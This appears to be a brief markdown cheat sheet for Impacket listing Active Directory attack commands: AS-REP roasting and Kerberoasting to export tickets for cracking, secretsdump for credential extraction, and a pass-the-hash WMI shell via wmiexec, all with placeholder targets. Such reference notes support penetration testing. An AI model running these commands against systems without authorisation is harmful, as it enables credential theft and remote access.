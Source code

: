 # impacket

collection of tools for working with network protocols

## SMB server

* experimental SMBv2 support

```
sudo smbserver.py -smb2support <share name> <path>
```

## get list of users that do not require Kerberos Pre-Authentication

export their TGTs for cracking

```
GetNPUsers.py -no-pass -usersfile <users> -dc-ip <domain controller> <domain>/
```

## Kerberoasting

get list of "service" accounts (i.e. ordinary *user* accounts associated with a particular service) and export their TGTs for cracking

```
GetUserSPNs.py -dc-ip <domain controller> -request <domain>/<username>:<password>
```

## dump secrets

```
secretsdump.py <username>:<password>@<host>
```

## execute a semi-interactive shell using WMI

* pass the hash

```
wmiexec.py -hashes [LM]:<NTLM> <domain>/<user>:<password>@<host>
```

## [...](https://github.com/SecureAuthCorp/impacket)
